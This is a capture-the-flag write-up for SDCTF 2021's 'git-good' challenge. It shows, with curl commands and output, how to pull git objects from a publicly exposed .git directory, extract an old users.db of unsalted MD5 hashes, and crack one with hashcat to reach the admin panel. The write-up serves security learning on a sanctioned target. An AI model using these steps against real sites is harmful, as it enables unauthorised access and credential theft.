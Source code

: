 # git-good - SDCTF 2021

One of the web challenges of SDCTF 2021 was "git-good", where we are given the story

> We've been issued a challenge by the primary competing cyber organization on campus,
> the Cybersecurity Group at UCSD.
> You have been granted permission to try and hack into their admin portal to steal their flag.
> They've been hardening their website for some time now, and they said they think its "unhackable".
> Show them how wrong they are!

and the link `https://cgau.sdc.tf/`
([Web Archive](https://web.archive.org/web/20210516124135/https://cgau.sdc.tf/)).

## The vulnerability

The challenge name "git-good" implied that the website's git repository was unprotected.
That is, the `.git` directory was publicly accessible in the webroot.
However, when an attempt was made to access the directory it was found that directory autoindexing
(a common security hole) was disabled:

```
Cannot GET /.git/
```

so the task was made more difficult by the necessity of knowing which paths to `GET` in advance.

## Getting the HEAD

Knowing that `.git` directories follow a common structure, a new git repository was created locally
and examined:

```bash
$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
```

we know from git documentation that the `HEAD` of the repository is the currently checked-out version
of the tracked files, so we follow the references:

```bash
$ cat HEAD
ref: refs/heads/master
$ cat refs/heads/master
# Commit hash here
```

doing this on the website led to the following commit hash:

```bash
$ curl https://cgau.sdc.tf/.git/refs/heads/master
0b23360a5d79ecf5241fd6790edd619304825b9a
```

where the hash is a reference to a file stored in the `objects` directory.

## Git objects

The file is found in a subdirectory named after the first two characters of the hash
and is named after the remaining characters of the hash.
Each file storing a git object is zlib compressed.
The commit hash above leads to:

```bash
$ curl https://cgau.sdc.tf/.git/objects/0b/23360a5d79ecf5241fd6790edd619304825b9a | zlib-flate -uncompress
commit 217tree 426ec68a64f6fe89ec40a3352213703792e080cb
parent d8eb39e3e2bb984ce687768d20f58d962942841d
author Aaron <aaron@cgau.sdc.tf> 1610830733 -0800
committer KNOXDEV <nick@knox.codes> 1610831055 -0800

Upgraded to bcrypt
```

where "upgraded to bcrypt" is probably a reference to a database of password hashes for the website's
admin panel. If the hashing algorithm was "upgraded" to bcrypt, then it must previously have been a
weaker algorithm. This is important, because bcrypt is a reasonably secure, recommended hash algorithm.
Most importantly, bcrypt hashes are salted, meaning we will not be able to use precomputed tables
of hash values to crack the passwords. This means cracking the bcrypt hashes is not feasible during the
timeframe of the competition. The previous commit referenced by the `parent` hash
will contain the old hashes:

```bash
$ curl https://cgau.sdc.tf/.git/objects/d8/eb39e3e2bb984ce687768d20f58d962942841d | zlib-flate -uncompress
commit 165tree 7e23e8d425a5f91a7f5e70d6c7cc6d7811db661d
author Aaron <aaron@cgau.sdc.tf> 1610830369 -0800
committer KNOXDEV <nick@knox.codes> 1610831041 -0800

Initial commit
$ curl https://cgau.sdc.tf/.git/objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d | zlib-flate -uncompress
# Binary data
```

Following the commit's tree hash leads to some binary data
in [a specific git tree format](https://www.dulwich.io/docs/tutorial/file-format.html#the-tree).
Most importantly, this format contains file names and hashes of the corresponding git object.
The file names contained in the tree are:

```
.gitignore
admin.html
app.js
image1.png
index.html
package-lock.json
package.json
robots.txt
users.db
```

and we can clearly see that the admin panel is located at `admin.html`
([Web Archive](http://web.archive.org/web/20210516132225/https://cgau.sdc.tf/admin.html))
and the users database with the password hashes is `users.db`.
Following the corresponding object hash gives:

```bash
$ curl https://cgau.sdc.tf/.git/objects/7e/23e8d425a5f91a7f5e70d6c7cc6d7811db661d | zlib-flate -uncompress | tail -c 20 test3_uncomp | xxd -p
84f191442c8479c4cbd67937b9cbe3df2038be63
$ curl https://cgau.sdc.tf/.git/objects/84/f191442c8479c4cbd67937b9cbe3df2038be63 | zlib-flate -uncompress
# Binary data
```

binary data in [git blob format](https://www.dulwich.io/docs/tutorial/file-format.html#the-blob),
which is just a brief null-terminated blob header followed by the file content. In this case:

```bash
$ curl https://cgau.sdc.tf/.git/objects/84/f191442c8479c4cbd67937b9cbe3df2038be63 | zlib-flate -uncompress | head -c 25
blob 8192SQLite format 3
```

the file is a SQLite database, and stripping out the header results in the original `users.db` file.
Uploading this to [an online SQLite database viewer](https://inloop.github.io/sqlite-viewer/)
gives the following table:

| id | email | password |
| -------- | -------- | -------- |
| 1 | `aaron@cgau.sdc.tf` | `e04efcfda166ec49ba7af5092877030e` |
| 2 | `chris@cgau.sdc.tf` | `c7c8abd4980ff956910cc9665f74f661` |
| 3 | `yash@cgau.sdc.tf` | `b4bf4e746ab3f2a77173d75dd18e591d` |
| 4 | `rj@cgau.sdc.tf` | `5a321155e7afbf0cfacf1b9d22742889` |
| 5 | `shawn@cgau.sdc.tf` | `a8252b3bbf4f3ed81dbcdcca78c6eb35` |

where each hash is 32 hexadecimal digits long, which is 16 bytes (128 bits).
This suggests that the hash algorithm is MD5.
Alternatively, the emails and corresponding hashes could have also been
obtained by running `strings` on the SQLite file.

## Cracking the hashes

Running [the latest version of hashcat](https://hashcat.net/hashcat/) using the
[rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/)
on the hashes gives:

```bash
$ cat hashes
e04efcfda166ec49ba7af5092877030e
c7c8abd4980ff956910cc9665f74f661
b4bf4e746ab3f2a77173d75dd18e591d
5a321155e7afbf0cfacf1b9d22742889
a8252b3bbf4f3ed81dbcdcca78c6eb35
$ ./hashcat.bin -m 0 hashes rockyou.txt
# Output
$ cat hashcat.potfile 
e04efcfda166ec49ba7af5092877030e:weakpassword
```

so logging in as `aaron@cgau.sdc.tf` with password `weakpassword`
on the admin panel gives flag `sdctf{1298754_Y0U_G07_g00D!}`.

